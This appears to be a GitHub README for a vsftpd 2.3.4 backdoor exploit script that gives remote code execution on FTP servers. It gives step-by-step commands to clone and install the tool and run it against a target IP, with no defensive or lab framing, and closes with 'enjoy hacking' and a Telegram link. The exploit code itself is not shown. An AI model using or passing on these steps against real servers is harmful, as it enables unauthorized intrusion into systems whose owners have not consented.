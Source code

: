 This is a vsftpd 2.3.4 exploit script for backdoor access (RCE) from vulnerable FTP servers.
This script can be used in Linux, Termux , Windows
Enter the following commands in order to run the script 

in Linux and Termux :

apt-get update && apt-get upgrade 
pkg install git 
git clone https://github.com/CyberBlackWolves/BW-VSFTPDEXP.git
cd BW-VSFTPDEXP
chmod +x *
pip install -r requirements.txt

python BW-VSFTPD-ExP.py --host 127.0.0.1

replace 127.0.0.1 with Target IP address 
run the script and enjoy hacking :) 

Our Telegram: https://t.me/BlackWolves_Team
